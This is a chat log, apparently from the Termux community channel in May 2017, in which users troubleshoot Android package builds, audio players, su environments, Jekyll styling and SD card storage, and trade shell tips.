2017-05-16 03:49:09	frumpylava	noncom38: tap the notification

2017-05-16 03:51:33	noncom38	ah, it worked! was burried under other notifications :)

2017-05-16 03:51:33	noncom38	thanks

2017-05-16 04:01:45	noncom	my friend has a 4.4 android device and the market says that termux is incompatible with the device... does not it support the 4.x family, or is it something specific for the device?

2017-05-16 04:15:28	gitter1	(n1had5_twitter) I think Lolipop is the minimam android version supported

2017-05-16 04:15:56	gitter1	(n1had5_twitter) because of some sort of libraries not being there or somwthing that I dont actually understand 😂

2017-05-16 04:16:28	gitter1	(n1had5_twitter) something, god damn it gitter why dont you support autocorrection...

2017-05-16 04:23:24	frumpylava	noncom: Yeah, Termux will not work on Android 4.4. Minimum is 5.

2017-05-16 04:31:24	noncom	ah uh oh awww

2017-05-16 05:21:38	frumpylava	Wow, the "error: conflicting types for '__errno'", also appears when building with the build system.

2017-05-16 06:07:08	gitter1	(cocodevienne) Can anyone here help?

2017-05-16 06:07:42	gitter1	(cocodevienne) I have a Jekyll site and when I commit all the files to GitHub Pages it renders the HTML but not the actual styling.

2017-05-16 06:20:39	frumpylava	@cocodevienne Your stylesheet doesn't get loaded because it's referenced with "http://" and github.io uses "https://"

2017-05-16 06:21:11	frumpylava	@cocodevienne just change the link so to "//", so it uses whatever protocol the whole site uses.

2017-05-16 06:21:50	gitter1	(cocodevienne) You mean in the config?

2017-05-16 06:22:10	gitter1	(cocodevienne) @frumpylava

2017-05-16 06:23:06	frumpylava	@cocodevienne yes.

2017-05-16 06:23:06	gitter1	(cocodevienne) Thanks that fixed it.

2017-05-16 06:23:25	gitter1	(cocodevienne) But do I need to commit to both branches when I make a new blog post?

2017-05-16 06:24:43	frumpylava	@cocodevienne no? Why do you even have a second branch?

2017-05-16 06:24:58	gitter1	(cocodevienne) No idea

2017-05-16 06:25:07	gitter1	(cocodevienne) How does one delete a branch?

2017-05-16 06:25:51	frumpylava	git branch -D <name>

2017-05-16 06:26:08	gitter1	(cocodevienne) thanks

2017-05-16 06:26:19	frumpylava	and on github at https://github.com/cocodevienne/cocodevienne.github.io/branches

2017-05-16 06:28:34	frumpylava	@cocodevienne, ah you can configure which branch to publish from the repository settings. I guess it could be usefull if multiple people write on the same site.

2017-05-16 06:31:55	gitter1	(cocodevienne) How can I delete the gh-pages branch from the website itsself?

2017-05-16 06:35:38	frumpylava	> and on github at https://github.com/cocodevienne/cocodevienne.github.io/branches

2017-05-16 06:36:31	gitter1	(cocodevienne) I do not see any options to delete it though...

2017-05-16 06:51:40	frumpylava	@cocodevienne I get a small trashcan that I can click. At least on my repositories. Are you logged in?

2017-05-16 06:54:17	gitter1	(cocodevienne) 'Tis done already, thanks so fucking much. You saved my morning amigo.❤️

2017-05-16 06:54:30	gitter1	(cocodevienne) @frumpylava

2017-05-16 07:25:36	live_the_dream	frumpylava: mpd behaving ?

2017-05-16 07:50:53	frumpylava	live_the_dream: Yes, I can now successfully start and stop my mpd service.

2017-05-16 07:51:49	frumpylava	live_the_dream: But can you please stop creating `~/music`. I have configured another directory, but the launch script always creates ~/music anyway.

2017-05-16 07:51:59	live_the_dream	yeah sure

2017-05-16 07:52:20	live_the_dream	it was becsuse something was screwed up

2017-05-16 07:52:49	live_the_dream	if you run it and music directory doesn't exist ... it craps itself

2017-05-16 07:52:54	live_the_dream	it wss

2017-05-16 07:53:56	live_the_dream	it still craps itself if the designated music dir doesn'5 exis5

2017-05-16 07:55:10	frumpylava	live_the_dream: Doesn't it just produce errors and exit?

2017-05-16 07:57:18	frumpylava	Because lot's of software requires writing config files first.

2017-05-16 07:58:48	frumpylava	getmail will also just error and exit.

2017-05-16 07:59:51	live_the_dream	yeah but you expect that

2017-05-16 08:00:10	live_the_dream	a music player should work

2017-05-16 08:00:43	live_the_dream	hmm i have an idea

2017-05-16 08:17:52	gitter1	(mklein994) live_the_dream: the same could be said about the config files. Why don't you just compile in defaults that minimally change from upstream (like port = 8600) and save an example config in `$PREFIX/share/doc/mpd`? That's how arch linux does it.

2017-05-16 08:18:10	live_the_dream	i do that

2017-05-16 08:19:47	gitter1	(mklein994) Where? I don't see anything in $PREFIX/share.

2017-05-16 08:20:22	live_the_dream	yeah its in etc/mpd.conf

2017-05-16 08:20:53	live_the_dream	the default setup is sles remember that isn't in original conf

2017-05-16 08:22:44	live_the_dream	i was right everything works brb

2017-05-16 08:39:53	live_the_dream	the reason i don't just start mpd listening on ports is becsuse its a mobile device having ports open like thst

2017-05-16 08:40:19	live_the_dream	at the very lesast makes you easy to track

2017-05-16 08:41:54	gitter1	(mklein994) Ah. I forgot about that—makes sense. It's simple to get it to run using the socket, so thanks for that.

2017-05-16 08:43:10	gitter1	(mklein994) The catch is that apps like https://github.com/gateship-one/malp need a network connection to work properly. But I can live with that.

2017-05-16 08:43:46	live_the_dream	its easy to enable

2017-05-16 08:43:54	gitter1	(mklein994) Exactly.

2017-05-16 08:44:23	live_the_dream	but it should user explicitly enabling because not a controlled network

2017-05-16 08:44:51	gitter1	(mklein994) Yeah I agree. Safe defaults are good.

2017-05-16 08:49:35	frumpylava	live_the_dream: About that socket. can you maybe move that to the $TMPDIR instead of the dotfiles. Some people do weird syncing with dotfiles and it's best to keep that stuff out of them. For me, most of my dotfiles are symlinks to my sdcard, and if the .mpd directory is a symlink it breaks everything because the external sdcard doesn't support sockets.

2017-05-16 09:11:37	u0_a164	hi, is there any way to send ctrl key in termux?

2017-05-16 09:12:42	frumpylava	u0_a164: yes. https://termux.com/touch-keyboard.html

2017-05-16 09:16:07	u0_a164	wow thanks, never knew about these features

2017-05-16 11:08:45	gitter1	(barjolem) Hi everyone, I'm trying to load a new module in metasploit on termux, but metsaploit can't find it.. do you know if it is link to termux?

2017-05-16 11:09:29	gitter1	(barjolem) Btw can't run msfupdate

2017-05-16 11:11:41	gitter1	(barjolem) I put the exploit in module/exploit and tried a reload_all but it doesn't work

2017-05-16 13:28:37	gitter1	(vishalbiswas) frumpylava: that __errno error occurs because android's definition is a littl different and the package defines its own __errno variable. Refer to the patch in alpine

2017-05-16 13:29:07	gitter1	(vishalbiswas) #markdowntrouble

2017-05-16 13:32:59	frumpylava	@vishalbiswas. I removed that line and it now *seems* to build without a problem. But after the build I can't find the files. building php-mysqli is hard.

2017-05-16 13:34:18	gitter1	(vishalbiswas) Just `tree $

2017-05-16 13:34:44	gitter1	(vishalbiswas) Use tree to list files from php's masage dir

2017-05-16 13:38:55	frumpylava	@vishalbiswas, well I can't even find them in the $PREFIX filesystem. They're also not in the massage dir?

2017-05-16 13:39:58	gitter1	(vishalbiswas) I have a baaad feeling about this

2017-05-16 13:40:38	gitter1	(vishalbiswas) Maybe you built it into php instead of a module

2017-05-16 13:42:13	frumpylava	@vishalbiswas hmm... possible. I looked at how postgres was made and copied most of it.

2017-05-16 13:47:00	gitter1	(sdrausty) find -type f |xargs grep search

2017-05-16 13:48:44	gitter1	(sdrausty) Finds all files with matching search terms in current and all subdirectories.

2017-05-16 13:48:56	gitter1	(sdrausty) Good luck:)

2017-05-16 13:49:25	frumpylava	@sdrausty I know where the files *should* be, it's not that I don't find them, they're not there.

2017-05-16 13:50:34	gitter1	(sdrausty) Just thought it might be a little more useful than `tree`ing for it.

2017-05-16 13:51:03	frumpylava	@sdrausty. I agree, tree is weird.

2017-05-16 13:51:46	frumpylava	@sdrausty but why the xargs? normally I do `find|grep <name>`

2017-05-16 13:52:25	gitter1	(vishalbiswas) frumpylava: https://git.archlinux.org/svntogit/packages.git/tree/trunk/PKGBUILD?h=packages/php

2017-05-16 13:52:46	gitter1	(vishalbiswas) Look at all those mysql options

2017-05-16 13:54:12	gitter1	(vishalbiswas) our socket is at `$TERMUX_PREFIX/tmp/mysqld.sock`

2017-05-16 13:58:23	frumpylava	@vishalbiswas thanks that really helps.

2017-05-16 13:59:35	gitter1	(vishalbiswas) I always look into PKGBUILD before porting a package. Why do worm that's already done?

2017-05-16 13:59:49	gitter1	(vishalbiswas) \*work

2017-05-16 14:00:04	gitter1	(sdrausty) frumpy: xargs helps in searching for every occurrence of search terms in all files in current and all subdirectories.

2017-05-16 14:02:11	gitter1	(vishalbiswas) Or you can just `grep <search term> -r <path>`

2017-05-16 14:02:28	gitter1	(vishalbiswas) \* requires gnu grep

2017-05-16 14:04:55	gitter1	(sdrausty) `xargs` moves the pipe around to the piped command. In this case `grep` takes the arguments of `find` and prints every occurrence and the line in with the text `search` was found.

2017-05-16 14:06:06	gitter1	(sdrausty) @vishalbiswas I will your suggestion a try. Thank you:)

2017-05-16 14:07:45	gitter1	(vishalbiswas) And for custom file formats:

2017-05-16 14:08:14	gitter1	(vishalbiswas) For searching through all .h headers:

2017-05-16 14:09:20	gitter1	(vishalbiswas) `find <path> -name '*.h' -exec grep <search term> -H \{\} \;`

2017-05-16 14:09:42	gitter1	(sdrausty) `find -type f` finds all files. It ommits directories.

2017-05-16 14:13:30	gitter1	(vishalbiswas) does anyone use linux deploy here?

2017-05-16 14:14:15	gitter1	(vishalbiswas) I want to know what dependencies do you get while installing gtk3/libgtk3

2017-05-16 14:14:48	gitter1	(sdrausty) I tried it a year ago, maybe more...

2017-05-16 14:25:04	gitter1	(sdrausty) @vishalbiswas Can you explain  `-H \{\} \;` in `find <path> -name '*.h' -exec grep <search term> -H \{\} \;`a little bit more, please?

2017-05-16 14:26:00	frumpylava	@vishalbiswas, great \o/ all the files are there. Now I'll try to create a subpackage and test it out.

2017-05-16 14:30:58	gitter1	(vishalbiswas) find <path>: finds everything in path

2017-05-16 14:31:45	gitter1	(vishalbiswas) -name '*.h': gets only those file that end with `.h` (learn regexp)

2017-05-16 14:32:14	gitter1	(vishalbiswas) -exec <command> \{\} \;

2017-05-16 14:32:58	gitter1	(vishalbiswas) Executes the command while replacing \{\} \; with a file match

2017-05-16 14:33:45	gitter1	(vishalbiswas) this -exec syntax runs the command for each match

2017-05-16 14:34:31	gitter1	(vishalbiswas) you can always `find --help`

2017-05-16 14:34:59	mikma	Hello folks. I was having a minor battery drain problem with Termux and mosh, about 6 months ago. I was wondering has there been any updates to the mosh shell? For some reason it doesn't work the way it should work. JuiceSSH has a proper mosh that doesn't eat up that much battery

2017-05-16 14:36:03	gitter1	(vishalbiswas) frumpylava: thats gonna be a little tricky as mariadb isn't available for arm

2017-05-16 14:36:21	gitter1	(sdrausty) @vishalbiswas Thank you for your answer, but that still doesn't touch on my question about the `-H \{\} \;` part.

2017-05-16 14:36:37	gitter1	(vishalbiswas) -H is passed to grep

2017-05-16 14:37:13	gitter1	(vishalbiswas) `\{\} \;` is replaced with the filename of a matched file

2017-05-16 14:38:00	gitter1	(sdrausty) Right. It's an argument of `grep` not `find`.  Thank you.

2017-05-16 14:38:17	gitter1	(vishalbiswas) frumpylava: we can probably use it for external mysql servers

2017-05-16 14:43:28	frumpylava	@vishalbiswas It is available on aarch64 ;) That's where I want to use it anyway.

2017-05-16 14:50:37	frumpylava	@vishalbiswas well I got the mysqli extension working, only it's not an extension, it's compiled into php itself.

2017-05-16 14:52:32	frumpylava	Well, EM ROF SKROW

2017-05-16 14:57:13	frumpylava	hmm php doesn't really care about the *.so files.

2017-05-16 15:07:39	frumpylava	maybe because I'm using mysqlnd

2017-05-16 15:35:52	fornwall	mikma: regarding battery drain with mosh, is the issue that it keeps using battery when in the background?

2017-05-16 15:37:27	fornwall	mikma: if so, it is because mosh keeps running and using battery even when termux is in the background

2017-05-16 15:38:43	fornwall	mikma: you can run Ctrl+^, which is the mosh escape key which brings up a top menu, then Ctrl+Z to suspend, which will suspend mosh - then just run 'fg' to resume the mosh session

2017-05-16 15:39:23	fornwall	mikma: this is effectively when juicessh does for you automatically when the app switches between foreground and background

2017-05-16 16:01:21	frumpylava	@vishalbiswas figured it all out. php-mysqli is now working. I'll do some more testing and then submit a PR.

2017-05-16 22:35:22	gitter1	(Subhash146) wifiphisher working or not

2017-05-16 22:37:38	gitter1	(Subhash146) in termux

2017-05-16 22:47:59	gitter1	(vishalbiswas) @Subhash146 anything related to wifi promiscuous mode is highly device dependent and, as such, not very useful to most other people.

2017-05-16 22:49:10	gitter1	(Subhash146) ok

2017-05-17 02:34:28	live_the_dream	hmmm vishal updated openjdk won't compile on arm??

2017-05-17 02:43:23	gitter1	(cocodevienne) You know it IS funny, everybody here mentioning the Open JDK like you've actually installed it.🤔 How does one install it?

2017-05-17 02:54:30	aleph-	cocodevienne, it's simple really.

2017-05-17 02:56:47	gitter1	(cocodevienne) Do tell.

2017-05-17 02:57:05	gitter1	(cocodevienne) @aleph

2017-05-17 02:57:31	aleph-	Using the power of 8-qbit quantum tunneling through a dockerized blockchain running on iot cloud instances. Every other line is compiled using a mashup of gcc, clang, and llvm on a mishmash of architectures and processers. Before finally being posted to Mastodon, reddit, twitter, and a series of slack channels as a base64 encoded string cut up in chunks for you to download and piece together.

2017-05-17 02:58:50	live_the_dream	aleph-: you win the internet

2017-05-17 02:59:16	gitter1	(cocodevienne) Ok and now in English?

2017-05-17 02:59:25	gitter1	(cocodevienne) ^¢

2017-05-17 02:59:28	gitter1	(cocodevienne) ^^

2017-05-17 02:59:54	aleph-	In english, hell if I know.

2017-05-17 02:59:57	aleph-	I'll check later.

2017-05-17 03:03:45	gitter1	(cocodevienne) Funny man;)

2017-05-17 03:04:07	gitter1	(cocodevienne) No seriously can somebody walk me through the process of installing it?

2017-05-17 11:28:52	gitter1	(vishalbiswas) live_the_dream: why fail? I compiled all 3 arches

2017-05-17 11:29:38	gitter1	(vishalbiswas) @cocodevienne Checkout my recent closed pull request

2017-05-17 11:30:04	gitter1	(cocodevienne) Link?

2017-05-17 11:30:46	gitter1	(vishalbiswas) @cocodevienne https://github.com/termux/termux-packages/pull/1018

2017-05-17 11:34:30	gitter1	(cocodevienne) Thanks!! How do I install Rust?

2017-05-17 11:34:42	gitter1	(cocodevienne) Will try it when I'm @home.

2017-05-17 11:40:24	gitter1	(vishalbiswas) rust is not available. trust me I want it, too

2017-05-17 11:41:15	gitter1	(cocodevienne) Ok:(

2017-05-17 12:04:30	Regenaxer	Article about development on (and also for) Android with Termux: https://picolisp.com/wiki/?TermuxPentiPicolisp

2017-05-17 12:10:40	van777	Regenaxer: thanks for sharing. the sofrware keyboard looks impressive

2017-05-17 12:23:40	Regenaxer	Thanks!

2017-05-17 13:16:14	gitter1	(cocodevienne) @vishalbiswas Which ones do I need to install from Google Drive for `aarch64`?

2017-05-17 13:16:27	gitter1	(vishalbiswas) use arm ones

2017-05-17 13:16:34	gitter1	(cocodevienne) ok

2017-05-17 13:16:37	gitter1	(vishalbiswas) aarch64 does not build yet

2017-05-17 13:17:22	gitter1	(cocodevienne) I have the following error:

2017-05-17 13:17:28	gitter1	(cocodevienne) `apt install ./openjdk-9-jre-headless_9.2017.5.12_arm.deb

2017-05-17 13:17:28	gitter1	(cocodevienne) Reading package lists... Done

2017-05-17 13:17:28	gitter1	(cocodevienne) Building dependency tree

2017-05-17 13:17:28	gitter1	(cocodevienne) [full message: https://gitter.im/termux/termux?at=591c85a883cb5db0733f610c]

2017-05-17 13:17:41	gitter1	(cocodevienne) I did install all the deps.

2017-05-17 13:17:45	aleph-	I should get back on rust one day. Focusing on C and Golang right now.

2017-05-17 13:18:06	aleph-	S'been... what rust version are we at now?

2017-05-17 13:29:39	gitter1	(vishalbiswas) @cocodevienne download and install it manually

2017-05-17 13:30:46	gitter1	(vishalbiswas) `apt install ca-certificates-java`

2017-05-17 13:31:31	gitter1	(vishalbiswas) as for others, you'll need to force install it with the `-f` option

2017-05-17 14:23:46	cori1	Hello. A stupid question, but does termux api provides access to android audio device?

2017-05-17 14:24:00	cori1	I saw a few cli players in the repo

2017-05-17 14:24:05	cori1	So I assumed, maybe, it does?

2017-05-17 14:30:25	van777	cori1: try "apt install mpv; mpv http://air.radiorecord.ru:8102/dub_320"

2017-05-17 14:33:41	cori1	well I tried installing cmus, but it cant open default audio device, mpv halts too

2017-05-17 14:34:14	cori1	I found a termux package for playing audio, called play-audio, but I'm interested if cmus or other players are actually working

2017-05-17 14:34:39	van777	../usr/libexec/mpv   instead of just mpv

2017-05-17 14:37:51	cori1	wow, indeed it works

2017-05-17 14:37:54	cori1	I mean mpv

2017-05-17 14:38:09	cori1	with -no-video attribute

2017-05-17 14:38:47	van777	 https://imgur.com/YyIk2Es

2017-05-17 14:39:42	cori1	it doesnt segfault for me if I execute it from $PATH

2017-05-17 14:40:08	cori1	or maybe it has to do something with playing an internet translation

2017-05-17 14:40:12	van777	on my other device it doesn't neither...

2017-05-17 14:41:34	van777	but cmus doesn't play yet..

2017-05-17 14:41:46	van777	i've just installed it

2017-05-17 14:42:40	cori1	well it says it cant access default output device but I guess I just need to specify opensl ES somehow

2017-05-17 14:43:03	van777	and to me it says "cmus: error: neither USER or USERNAME environment variable set"

2017-05-17 14:43:27	cori1	ah this, just do

2017-05-17 14:43:27	cori1	USER=android

2017-05-17 14:43:27	cori1	export USER

2017-05-17 14:43:32	cori1	or any other username

2017-05-17 14:44:58	van777	cori1: it helped, the interface showed up, but doesn't play the stream

2017-05-17 14:45:39	cori1	well I'm figuring out myself right now

2017-05-17 15:00:12	cori1	well I guess cmus doesnt have a plugin for opensles output

2017-05-17 15:00:13	cori1	mpv does

2017-05-17 15:01:49	van777	cori1: yep. they install pulseaudio or alsa for cmus to play... https://github.com/termux/termux-packages/issues/821

2017-05-17 15:02:29	cori1	I tried using pulseaudio but it crashes with "cannot link executable"

2017-05-17 15:03:51	cori1	anyway the method described is extremely crunchy

2017-05-17 15:04:04	cori1	Because it requires you to rely on an external app

2017-05-17 15:04:12	van777	there is mpd with ncmn... i don't remember. It works on termux. It's been discussed here before

2017-05-17 15:05:13	van777	mpd ncmpcpp

2017-05-17 15:05:56	cori1	hm is it in the repo?

2017-05-17 15:09:13	van777	no! but it's possible to install.. I did't get into details

2017-05-17 15:09:52	van777	live_the_dream knows

2017-05-17 15:12:35	cori1	well I'll guess I'll try to compile it

2017-05-17 15:31:15	Gilfoyle-	I'd love ncmpcpp on here.

2017-05-17 15:43:52	frumpylava	Gilfoyle. It's already possible with live_the_dream's repository. There is a PR hanging, so it might be included soon.

2017-05-17 15:47:33	Gilfoyle-	Oh? Where is live_the_dreams repo?

2017-05-17 15:47:47	Gilfoyle-	Haven't seen anything while searching through google.

2017-05-17 16:06:21	van777	live_the_dream: is a nick , he is here, in the channel

2017-05-17 16:07:03	van777	Gilfoyle-: ^

2017-05-17 16:08:06	Gilfoyle-	Ohhh.

2017-05-17 16:08:07	Gilfoyle-	Doy

2017-05-17 16:08:31	Gilfoyle-	Does anybody have a link to it then?

2017-05-17 16:30:45	frumpylava	Gilfoyle-: https://github.com/its-pointless/gcc_termux

2017-05-17 16:52:45	gitter1	(cocodevienne) I gave up...

2017-05-17 16:52:48	gitter1	(cocodevienne) @vishalbiswas

2017-05-17 16:53:04	gitter1	(cocodevienne) Can I run kotlin code on Android?

2017-05-17 16:53:18	gitter1	(cocodevienne) So, write & compile?

2017-05-17 17:44:05	live_the_dream	ncmcpp and mpd are pending

2017-05-17 17:45:24	live_the_dream	github.com/its-pointless/gcc_termux/ read the read me or whwtevver

2017-05-17 18:33:40	live_the_dream	enable ncmpcpp as well fornwall

2017-05-17 18:36:02	fornwall	live_the_dream: done!

2017-05-18 04:12:02	frumpylava	fornwall: How long does a complete rebuild of all arches take you?

2017-05-18 04:12:49	gitter1	(cocodevienne) Help please. I have some Kotlin code I want to run on Termux. Can I even do that?

2017-05-18 04:57:24	fornwall	frumpylava: hm, I don't have any recent timings. a guess would be around 8-12 hours?

2017-05-18 05:11:04	frumpylava	fornwall: Hm... then your build machine must be significantly faster than mine. ;) Mine has been building php + dependencies since 4 hours.

2017-05-18 05:12:37	fornwall	frumpylava: hm, I may also be incorrect, it probably takes longer nowadays :). but 4 hours for php+dependencies sounds long, I'm starting a clean build of that now to see how long it takes

2017-05-18 05:12:46	fornwall	is that for all arches or just one?

2017-05-18 05:13:14	frumpylava	fornwall: all arches.

2017-05-18 06:00:22	frumpylava	Never tell people you're running software on Termux/Android. They're much less likely to help you debug a problem when you ask them. "Oh, android isn't a supported platform of php. sucks, I guess"

2017-05-18 06:02:51	live_the_dream	i had the opposite situation

2017-05-18 06:02:55	live_the_dream	with scipy

2017-05-18 06:48:59	frumpylava	Well, most of the php community doesn't know a thing about compiling php extensions.

2017-05-18 07:08:24	fornwall	frumpylava: are your build done yet? a clean build for me for php and all deps took 37 minutes

2017-05-18 07:09:00	fornwall	frumpylava: on a ivy bridge cpu (i7-3770K), 16gb ram and 100 Mbit/s connection

2017-05-18 07:09:39	frumpylava	fornwall: Yeah. stopped a while ago. Took around 4 hours. (to be fair, for me mariadb is already a dependency ad well)

2017-05-18 07:10:46	fornwall	that was on a ubuntu installation directly. I'm building under docker now, interesting to see how much overhead that brings

2017-05-18 07:12:37	frumpylava	Yeah I was building in Docker.

2017-05-18 07:13:13	frumpylava	fornwall:By the way, wWhat is your opinion; Should Termux eventually become self-hosting?

2017-05-18 07:14:03	fornwall	frumpylava: yes, that would be really nice, something to strive for

2017-05-18 07:21:02	frumpylava	fornwall: That's good to hear. It might be a long way away and every new version of android will place more rocks in our way, but eventually it should be achievable.

2017-05-18 07:31:53	fornwall	mpd and ncmpcpp are now available in the main apt repo

2017-05-18 07:52:52	fornwall	frumpylava: docker didn't add much overhead, build time went from 37 to 39 minutes

2017-05-18 07:55:46	frumpylava	fornwall: cool. that is pretty fast.

2017-05-18 08:16:41	Regenaxer	Installing Termux 4.9 aborts with "Unknown Error"

2017-05-18 08:16:54	Regenaxer	from F-droid.org btw

2017-05-18 08:17:32	fornwall	Regenaxer: it's a F-Droid build issue, https://github.com/termux/termux-app/issues/319

2017-05-18 08:17:45	fornwall	Regenaxer: I've just tagged a v0.50 release which tries to work around the problem

2017-05-18 08:18:09	Regenaxer	great, thanks!

2017-05-18 08:33:00	frumpylava	I want to install from F-Droid too. But I am scared it will delete my 110 GB of data that are in the external SD card's termux directory.

2017-05-18 08:34:09	fornwall	frumpylava: are you on google play install now, so you would have to uninstall before installing from f-droid?

2017-05-18 08:34:45	frumpylava	fornwall: yeah

2017-05-18 08:35:07	frumpylava	I guess I could just pull my sdcard and then switch

2017-05-18 08:37:07	fornwall	frumpylava: ah right, that should work (as long as android doesn't store and validate the app signature on external storage, which I guess it doesn't)

2017-05-18 08:46:00	live_the_dream	ls

2017-05-18 08:46:04	live_the_dream	oops

2017-05-18 10:18:56	Gilfoyle-	fornwall: Sweet. Danke

2017-05-18 10:22:25	gitter1	(cocodevienne) Wir sprechen hier nur Englisch amigom

2017-05-18 10:22:28	gitter1	(cocodevienne) *amigo.

2017-05-18 10:22:43	gitter1	(cocodevienne) @Gilfoyle-

2017-05-18 10:23:25	Gilfoyle-	Heh

2017-05-18 10:35:48	frumpylava	Vielleicht ist es an der Zeit #termux_de zu starten.

2017-05-18 10:36:13	frumpylava	@cocodevienne

2017-05-18 10:39:15	Gilfoyle-	Lord my German is rusty.

2017-05-18 10:40:48	gitter1	(cocodevienne) Wieso nicht!

2017-05-18 10:41:03	gitter1	(cocodevienne) Willst dus machen? @frumpylava

2017-05-18 10:43:59	frumpylava	@cocodevienne Klar! #termux-de ist ja schnell gemacht. nur fehlt dann halt die Gitter integration.

2017-05-18 11:01:20	frumpylava	compiling something it says: "eval: ldconfig: not found". Is that bad?

2017-05-18 11:02:36	frumpylava	I'm mostly asking because I get "dlopen failed: cannot locate symbol &quot;pcre_exec&quot; " when running the thing.

2017-05-18 11:04:28	gitter1	(cocodevienne) Kannst dus machen? Habe keinen Plan wies geht.

2017-05-18 11:05:30	frumpylava	@cocodevienne, tja. musst wohl oder übel in den IRC kommen on "/join #termux-de" machen

2017-05-18 12:13:32	gitter1	(cocodevienne) Bin schon da!

2017-05-18 13:27:01	gitter1	(vishalbiswas) frumpylava: read last note in packages' readme

2017-05-18 13:48:30	frumpylava	@vishalbiswas thanks for the hint. so i basically need to link against pcre for apcu and pdo_mysql at mysql(?)?

2017-05-18 14:00:12	ElectroXexual	How do i run scripts from tasker?  I know there's already a plugin to do just that but for some reason it's not working for me,  i have already reported about the issue. I have also tried to run shortcuts with the help of termux-widget and secure settings but sometimes it works sometimes just doesn't. I'm not rooted and I've also white listed all m

2017-05-18 14:00:12	ElectroXexual	y automation apps from battery saver. So... How can I run these scripts via "intent task" from tasker...?  I'm also fine with java code that i can run from tasker or shell commands even

2017-05-18 14:33:35	frumpylava	fornwall: We were right. Pulling the Sd card and uninstalling it and reinstalling it from the sdcard does not delete the sdcard storage.

2017-05-18 20:28:20	Gilfoyle-	Hey, so is there a way to get su to work better with termux in regards to preserving environment?

2017-05-18 20:28:26	Gilfoyle-	Using Magisck currently.

2017-05-19 01:20:49	Gilfoyle-	Welp, su is driving me nuts.

2017-05-19 01:21:01	gitter1	(vishalbiswas) try tsu

2017-05-19 01:21:07	Gilfoyle-	I tried using tsu. Nada

2017-05-19 01:21:34	Gilfoyle-	Tried editing  termux.com/.../bin/su

2017-05-19 01:21:38	Gilfoyle-	Nada as well.

2017-05-19 01:23:21	Gilfoyle-	Been at it for hours.

2017-05-19 01:24:07	gitter1	(vishalbiswas) what are you trying to do?

2017-05-19 01:24:10	Gilfoyle-	Tried making an alias in .bashrc to run su with LD_PRELOAD, the path set correctly, and --preserve-environment.

2017-05-19 01:24:14	Gilfoyle-	Still nothing.

2017-05-19 01:24:31	Gilfoyle-	Trying to run as root while preserving the subshell environment.

2017-05-19 01:24:45	Gilfoyle-	So as to use all the utilities that were downloaded.

2017-05-19 01:25:13	gitter1	(vishalbiswas) launch a standard su shell, and then export PATH and LD_LIBRARY_PATH

2017-05-19 01:25:49	Gilfoyle-	Does root have a home folder so I can stick a .bashrc in there?

2017-05-19 01:27:08	Gilfoyle-	Hmm, finally works. Odd that didn't before.

2017-05-19 01:27:35	Gilfoyle-	Not to remember where system wide configs reside.

2017-05-19 01:29:46	gitter1	(vishalbiswas) i don't have these problems, executing `/system/xbin/su` preserves my env

2017-05-19 01:37:27	Gilfoyle-	Heh, all I got there is sulogin. No su.

2017-05-19 01:37:39	Gilfoyle-	Guess magisck installs the binary elsewhere.

2017-05-19 01:41:16	gitter1	(vishalbiswas) you're su binary must be somewhere else then.

2017-05-19 01:41:23	gitter1	(vishalbiswas) \* your

2017-05-19 20:32:56	leandro_	can I specify apt to install in my SD card somehow?

2017-05-19 20:33:03	leandro_	I have a Samsung J2 Prime

2017-05-19 21:00:34	live_the_dream	no stuff is only executable in com.termux

2017-05-19 21:01:29	live_the_dream	but you can store dsta in sd card

2017-05-19 21:02:54	bokuno	termux-setup-storage

2017-05-19 21:03:48	bokuno	then 'cd ~/storage' you see your sdcard

2017-05-19 21:29:38	leandro_	thanks a lot bokuno

2017-05-19 22:19:29	gitter1	(vishalbiswas) can somebody explain to me what is kotlin, how does it work and why is it preferable over java?

2017-05-19 22:28:26	live_the_dream	https://kotlinlang.org/docs/reference/comparison-to-java.html

2017-05-19 22:28:56	live_the_dream	only other thing i know is mpv-android use it

2017-05-19 22:28:58	live_the_dream	and they think its grest

2017-05-19 22:29:35	gitter1	(vishalbiswas) i've seen some programs and they look like "functional programming meets java"

2017-05-19 22:30:39	 *	live_the_dream shrugs

2017-05-19 22:32:10	gitter1	(vishalbiswas) what does kotlin compile to? native or bytecode?

2017-05-19 22:33:25	leandro_	cd ~/storage no such file or dir

2017-05-19 22:33:27	leandro_	help pls

2017-05-19 22:34:05	live_the_dream	https://github.com/JetBrains/kotlin-native

2017-05-19 22:34:17	gitter1	(vishalbiswas) leandro: run `termux-setup-storage` to request permissions for sdcard

2017-05-19 22:34:36	leandro_	let see

2017-05-19 22:34:38	gitter1	(vishalbiswas) live_the_dream: yes i saw that, thats why i'm confused

2017-05-19 22:34:54	live_the_dream	it needs java to compile it

2017-05-19 22:35:10	gitter1	(vishalbiswas) but the native one doesn't?

2017-05-19 22:35:15	live_the_dream	so byte code

2017-05-19 22:35:20	live_the_dream	for now

2017-05-19 22:35:27	live_the_dream	i think

2017-05-19 22:35:29	 *	live_the_dream shrugs

2017-05-19 22:36:27	gitter1	(vishalbiswas) well, I'm on arch. we have openssl 1.1, mariadb host build fails now

2017-05-19 22:38:29	leandro_	gitter1, (sorry for bother), what is the default "up" key?

2017-05-19 22:39:31	gitter1	(vishalbiswas) leandro_: https://termux.com/touch-keyboard.html

2017-05-19 22:40:03	gitter1	(vishalbiswas) and no need to be sorry, we've all been there

2017-05-19 23:24:01	gitter1	(vishalbiswas) sorry live_the_dream, I meant to ask frumpylava

2017-05-19 23:24:34	gitter1	(vishalbiswas) frumpylava: Instead i get `Fatal error: Uncaught Error: Class 'mysqli' not found`

2017-05-20 02:03:48	gitter1	(cocodevienne) Can I run kotlin on Termux??

2017-05-20 02:28:25	gitter1	(vishalbiswas) not yet @cocodevienne

2017-05-20 03:23:07	frumpylava	@vishalbiswas shm_unlink error is when running apcu. nothing to do with mysql.

2017-05-20 03:24:28	frumpylava	@vishalbiswas have you enabled the mysqli.so extensions im your php.ini?

2017-05-20 03:30:39	live_the_dream	b21ln7325

2017-05-20 03:30:42	live_the_dream	fudk

2017-05-20 03:31:41	live_the_dream	anyway openjdk won't compile

2017-05-20 03:35:02	live_the_dream	doesn't really matter though

2017-05-20 05:21:59	gitter1	(spences10) Hello termux fam

2017-05-20 05:22:00	gitter1	(spences10)

2017-05-20 05:25:54	gitter1	(spences10) I haz error

2017-05-20 05:26:49	gitter1	(spences10) Oh, can't paste images on mobile

2017-05-20 05:26:53	gitter1	(spences10) Bugger

2017-05-20 06:30:08	gitter1	(vishalbiswas) frumpylava: it doesn't have a mysqli.so

2017-05-20 06:30:30	gitter1	(vishalbiswas) live_the_dream: some errors?

2017-05-20 12:10:06	gitter1	(namdnguyen) Is there a way to pin or lock a package on termux?

